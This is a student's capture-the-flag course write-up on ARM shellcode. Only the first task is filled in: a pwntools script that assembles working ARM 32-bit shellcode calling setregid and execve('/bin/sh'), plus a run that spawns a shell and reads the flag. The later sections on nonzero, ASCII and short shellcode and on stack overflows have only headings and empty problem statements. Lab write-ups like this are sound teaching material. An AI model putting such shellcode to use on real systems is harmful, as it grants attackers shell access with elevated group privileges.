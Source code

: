# Write-up for Unit2-2

- netID: TXK220008
- Name: Takemaru Kadoi

All the write-ups are supposed to use this import.

```python
from pwn import *
```

## 1-shellcode-arm

The problem statement is below.

````md
Write a ARM shellcode that runs:

```c
setregid(getegid(), getegid())
execve("/bin/sh", 0, 0);
```

and put the shellcode binary (`shellcode.bin`) into this directory.
````

The given binary is arm 32bit.

```bash
TXK220008@ctf-vm3:~/unit2/1-shellcode-arm $ checksec 1/1-shellcode-arm
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/home/TXK220008/unit2/1-shellcode-arm/1-shellcode-arm'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

This problem just requires you to translate what you solved in Unit2-1's level1.

The whole code will be like this.

```python
#!/usr/bin/env python3
from pwn import *
from pwn import asm, process

context.arch = 'arm'
# setregid(getegid(), getegid())
# getegid: 50(%r7)
# setregid: 71(%r7) (%r0 = gid_t rgid, %r1 = gid_t rgid)
shellcode = asm(
    """
mov     r7, 50
swi     0
mov     r1, r0
mov     r7, 71
swi     0
"""
)
# execve("/bin/sh", 0, 0)
# execve: 11(%r7) (%r0 = const char *filename, %r1 = const char *argv[], %r2 = const char *envp[])
shellcode += asm(
    """
adr     r0, _bin_sh
mov     r1, 0
mov     r2, 0
mov     r7, 11
swi     0
_bin_sh:
    .asciz "/bin/sh"
"""
)

with open("shellcode.bin", "wb") as shellcode_file:
    shellcode_file.write(shellcode)

```

Then, you get the flag.

```bash
TXK220008@ctf-vm3:~/unit2/1-shellcode-arm $ ./solve1.py; ./1-shellcode-arm
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
Reading shellcode from shellcode.bin
$ cat flag
CS6332{welcome_to_arm}
```

## 2-nonzero-shellcode-arm

The problem statement is below.

```md

```

## 3-ascii-shellcode-arm

The problem statement is below.

```md

```

## 4-short-shellcode-arm

The problem statement is below.

```md

```

## 5-stack-ovfl-arm

The problem statement is below.

```md

```

## 6-stack-ovfl-use-envp-arm

The problem statement is below.

```md

```

## 7-stack-ovfl-no-envp-arm

The problem statement is below.

```md

```
